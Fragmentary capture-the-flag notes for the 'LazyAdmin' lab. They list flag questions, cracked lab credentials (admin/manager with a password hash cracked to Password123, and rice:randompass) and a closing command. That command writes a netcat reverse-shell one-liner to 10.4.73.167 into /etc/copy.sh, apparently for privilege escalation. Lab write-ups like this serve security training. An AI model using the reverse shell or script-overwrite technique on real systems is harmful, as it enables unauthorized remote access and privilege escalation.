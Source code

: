 ### LazyAdmin


####  Lazy Admin

What is the user flag?


What is the root flag?


Enumeration:







admin: manager
passwd : 42f749ade7f9e195bf475f37a44cafcb | Password123


rice:randompass


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5555 >/tmp/f" > /etc/copy.sh